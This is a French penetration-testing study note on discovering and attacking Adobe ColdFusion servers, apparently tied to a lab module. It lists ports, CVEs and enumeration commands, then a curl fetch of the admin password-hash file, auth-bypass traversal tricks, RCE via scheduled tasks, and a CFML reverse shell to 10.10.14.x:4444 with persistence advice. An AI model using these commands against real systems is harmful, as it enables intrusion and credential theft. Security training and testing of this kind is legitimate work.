

La découverte et l'énumération de **ColdFusion** constituent une étape critique lors de l'audit d'applications web, souvent corrélées aux techniques de **Web Application Enumeration** et de **Directory Brute Forcing**.



## Introduction

| Élément | Détail |
| :--- | :--- |
| **ColdFusion** | Langage de développement web basé sur Java |
| Langage principal | **CFML** (ColdFusion Markup Language) |
| Syntaxe | Proche de HTML avec balises dynamiques |
| Éditeurs historiques | Allaire, Macromedia, Adobe |
| Plateforme | Windows, Mac, Linux, Cloud |

## Exemples CFML

```cfml
<!-- Requête SQL -->
<cfquery name="myQuery" datasource="myDataSource">
  SELECT * FROM myTable
</cfquery>

<!-- Boucle sur les résultats -->
<cfloop query="myQuery">
  <p>#myQuery.firstName# #myQuery.lastName#</p>
</cfloop>
```

## Avantages de ColdFusion

| Fonction | Description |
| :--- | :--- |
| Web dynamique | Gestion des sessions, formulaires |
| Intégration BDD | Oracle, SQL Server, MySQL |
| Gestion de contenu | Formulaires, AJAX, upload, rewriting |
| Performances | Faible latence, haut débit |
| Collaboration | Débogage, partage de code, versioning |

## Vulnérabilités Connues

| CVE | Description |
| :--- | :--- |
| CVE-2021-21087 | Upload arbitraire de fichiers JSP |
| CVE-2020-24453 | Mauvaise configuration Active Directory |
| CVE-2020-24450 | Injection de commandes |
| CVE-2020-24449 | Lecture arbitraire de fichiers |
| CVE-2019-15909 | **XSS** (Cross-Site Scripting) |

## Ports utilisés par défaut

| Port | Protocole | Usage |
| :--- | :--- | :--- |
| 80 | HTTP | Serveur web non sécurisé |
| 443 | HTTPS | Serveur web sécurisé |
| 8500 | SSL | Port **ColdFusion** dédié |
| 1935 | RPC | Remote Procedure Call |
| 25 | SMTP | Envoi d’e-mails |
| 5500 | Admin | Monitoring/Remote Admin |

## Techniques d’énumération

| Méthode | Explication |
| :--- | :--- |
| Scan de ports | Identifier les ports 80/443/8500 avec **nmap** |
| Extensions | `.cfm`, `.cfc` |
| Fichiers par défaut | `/CFIDE/administrator/index.cfm`, `admin.cfm` |
| En-têtes HTTP | `Server: ColdFusion`, `X-Powered-By: ColdFusion` |
| Erreurs | Références aux balises **CFML** dans les messages |

## Scan Nmap

```bash
nmap -p- -sC -Pn 10.129.247.30 --open
```

**Résultat type :**

```text
PORT      STATE SERVICE
135/tcp   open  msrpc
8500/tcp  open  fmtp
49154/tcp open  unknown
```

> [!info] Indicateur de présence
> Le port 8500 est un indicateur fort de présence de **ColdFusion**.

## Accès au serveur

*   Naviguer vers : `http://<IP>:8500`
*   Dossiers typiques visibles : `/CFIDE/`, `/cfdocs/`
*   Accès à `/CFIDE/administrator` : Panneau d'administration **ColdFusion**

> [!danger] Cible critique
> Le panneau d'administration `/CFIDE/administrator` est la cible critique pour l'élévation de privilèges.

> [!warning] Limitations
> Attention au temps de chargement anormalement long (90s) sur certaines versions.
> Risque élevé d'upload arbitraire de fichiers JSP via les vulnérabilités connues, se référer à **File Upload Vulnerabilities**.

## Versions connues

| Version | État |
| :--- | :--- |
| CF 2023 | Alpha |
| CF 2021 | Stable |
| CF 2018 | Ancienne |
| CF 8 | Exposée dans le module |

## Outils recommandés

| Objectif | Outils |
| :--- | :--- |
| Port scanning | **nmap**, **rustscan** |
| Directory Bruteforce | **dirsearch**, **gobuster**, **ffuf** |
| Analyse CFML | **Burp Suite**, **cfbrute** |
| Bypass auth/admin | Custom wordlists, bruteforce, recon |
| LFI/Traversal | Tester `../../`, `..\`, `%2e%2e/` |

> [!tip] Énumération de répertoires
> Pour une énumération efficace, utiliser **gobuster** ou **ffuf** avec des listes spécifiques aux extensions **CFML** :
> `gobuster dir -u http://<IP>:8500 -w /usr/share/wordlists/dirb/common.txt -x cfm,cfc`

## Analyse de fichiers de configuration (neo-security.xml)

Le fichier `neo-security.xml` contient des informations sensibles, notamment les hashs des mots de passe administrateur. Il se situe généralement dans `/CFIDE/administrator/snippets/` ou `/WEB-INF/cfusion/lib/`.

```bash
# Exemple de recherche via LFI si vulnérabilité présente
curl -v "http://<IP>:8500/CFIDE/administrator/snippets/neo-security.xml"
```

## Techniques de bypass d'authentification

Certaines versions de **ColdFusion** permettent de contourner l'authentification via des requêtes malformées ou des points de terminaison non protégés :

*   **Directory Traversal :** Utiliser des séquences `%00` ou `..%2f` pour accéder aux fichiers protégés.
*   **Point de terminaison sans auth :** Tester l'accès direct à `/CFIDE/administrator/enter.cfm` ou des scripts de configuration.

## Exploitation (RCE via upload/admin)

Une fois l'accès administrateur obtenu, l'upload de fichiers est la méthode privilégiée pour obtenir une **RCE**.

1.  Accéder à **Mappings** ou **Scheduled Tasks** dans l'interface admin.
2.  Créer une tâche planifiée pointant vers un fichier distant ou uploader un fichier `.cfm` via les fonctionnalités de gestion de contenu.
3.  Exécuter le fichier : `http://<IP>:8500/userfiles/shell.cfm`

## Post-Exploitation (Webshell, persistence)

Une fois le code exécuté, déployer un webshell persistant pour maintenir l'accès.

```cfml
<cfexecute name="/bin/bash" arguments="-c 'bash -i >& /dev/tcp/10.10.14.x/4444 0>&1'" timeout="10"></cfexecute>
```

*   **Persistence :** Modifier les fichiers de configuration de démarrage ou ajouter une tâche planifiée (Scheduled Task) qui exécute périodiquement un script de rappel (reverse shell).

## Privilege Escalation spécifique à ColdFusion

L'élévation de privilèges dépend souvent du contexte d'exécution du service **ColdFusion** (souvent `SYSTEM` ou `root`).

*   **Vérification des permissions :** Si le service tourne en tant qu'utilisateur privilégié, toute exécution de code via **CFML** hérite de ces privilèges.
*   **Extraction de secrets :** Analyser les fichiers `neo-datasource.xml` pour récupérer des identifiants de bases de données en clair ou chiffrés, permettant une escalade latérale vers le serveur de base de données.

*Voir aussi : **ColdFusion Exploitation**, **File Upload Vulnerabilities**, **Directory Brute Forcing***